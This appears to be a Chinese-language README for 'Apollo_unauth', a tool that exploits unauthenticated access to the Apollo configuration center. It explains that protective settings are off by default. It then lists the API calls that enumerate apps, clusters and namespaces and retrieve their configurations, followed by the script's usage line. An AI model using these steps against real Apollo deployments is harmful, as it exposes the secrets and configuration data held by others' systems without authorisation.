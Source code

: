 # Apollo_unauth
Apollo 配置中心未授权获取配置漏洞利用

## 0x00：背景
Apollo（阿波罗）是携程框架部门研发的分布式配置中心，能够集中化管理应用不同环境、不同集群的配置，配置修改后能够实时推送到应用端，并且具备规范的权限、流程治理等特性，适用于微服务配置管理场景。
项目地址: https://github.com/ctripcorp/apollo

## 0x01：默认不安全
从 issues-2099 可以看出，根本不需要通过要鉴权的 apollo-dashboard ，只要通过伪造成客户端，即可未授权获取相应的配置信息。

Apollo 官方的解决方案是：

1.6.0 版本开始增加访问密钥机制，只有经过身份验证的客户端才能访问敏感配置。如果应用开启了访问密钥，客户端需要配置密钥，否则无法获取配置。但是默认不会开启此项功能。

1.7.1 版本开始可以为 apollo-adminservice 开启访问控制，从而只有合法的 apollo-portal 才能访问对应接口，以增强安全性。类似于增加配置：

admin-service.access.control.enabled = true
admin-service.access.tokens=098f6bcd4621d373xade4e832627b4f6
有意思的是，默认 admin-service.access.control.enabled 值为 false，也就是默认不会开启此项功能。

## 0x03：漏洞利用

大致流程就是利用默认可未授权访问的 apollo-configservice 和 apollo-adminservice 服务，通过调用相关接口获取所有能够获取到的配置信息。

```
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

脚本用法如下：

Usage: Apollo_unauth.py -a <apollo_adminservice_url> and -c <apollo_configservice_url>

参考文章：https://buaq.net/go-53399.html
